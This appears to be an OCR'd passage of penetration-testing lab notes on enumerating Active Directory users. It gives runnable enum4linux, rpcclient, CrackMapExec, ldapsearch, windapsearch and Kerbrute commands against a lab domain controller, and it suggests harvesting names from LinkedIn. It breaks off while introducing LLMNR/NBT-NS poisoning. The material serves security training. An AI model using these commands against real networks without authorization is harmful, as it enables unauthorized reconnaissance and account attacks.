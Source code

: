 It’s possible to do this using the SYSTEM account because it can impersonate the computer. A computer object is treated as a domain user account (with some differences, such as authenticating across forest trusts). If you don’t have a valid domain account, and SMB NULL sessions and LDAP anonymous binds are not possible, you can create a user list using external resources such as email harvesting and LinkedIn. This user list will not be as complete, but it may be enough to provide you with access to Active Directory.

Some tools that can leverage SMB NULL sessions and LDAP anonymous binds include enum4linux, rpcclient, and CrackMapExec, among others. Regardless of the tool, we'll have to do a bit of filtering to clean up the output and obtain a list of only usernames, one on each line. We can do this with enum4linux with the -U flag.

```bash
# Using enum4linux
$ enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

# Using rpcclient
$ rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers 

# Using CrackMapExec
$ crackmapexec smb 172.16.5.5 --users
$ awk '{ print $5 }' users.txt | cut -d'\' -f2 >> validusers.txt
```

### Gathering Users with LDAP Anonymous
```bash
# Using ldapsearch
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "


## Using windapsearch

$ ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

### Enumerating Users with Kerbrute
```bash
$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users

grep -o '[a-zA-Z0-9._%+-]\+@[a-zA-Z0-9.-]\+\.[a-zA-Z]\{2,6\}' kerb.txt
cut -d "@" -f 1 your_file.txt
```

If we are unable to create a valid username list using any of the methods highlighted above, we could turn back to external information gathering and search for company email addresses or use a tool such as linkedin2username to mash up possible usernames from a company's LinkedIn page.

* * *

## LLMNR/NBT-NS Poisoning 
Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails. If a machine attempts to resolve a host but DNS resolution fails, typically, the machine will try to ask all other machines on the local network for the correct host address via LLMNR. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. It uses port 5355 over UDP natively. If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes port 137 over UDP.
